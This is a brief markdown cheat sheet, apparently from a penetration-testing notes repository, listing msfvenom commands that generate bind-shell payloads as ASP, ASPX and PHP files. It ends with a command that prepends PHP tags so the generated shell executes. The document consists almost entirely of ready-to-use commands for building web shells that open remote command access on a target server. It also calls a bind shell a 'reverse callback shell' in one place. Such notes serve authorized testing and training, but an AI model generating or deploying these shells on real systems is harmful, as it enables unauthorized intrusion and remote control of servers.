 # Bind Shells

## 01 - ASP

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o shell-x86.asp

$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o shell-x64.asp
```

## 02 - ASPX

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o shell-x86.aspx

$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o shell-x64.aspx
```

## 03 - PHP

PHP bind callback shell

```
$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o shell.php
```

PHP with perl code bind callback shell

```
$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o shell.php
```

After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard shell.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```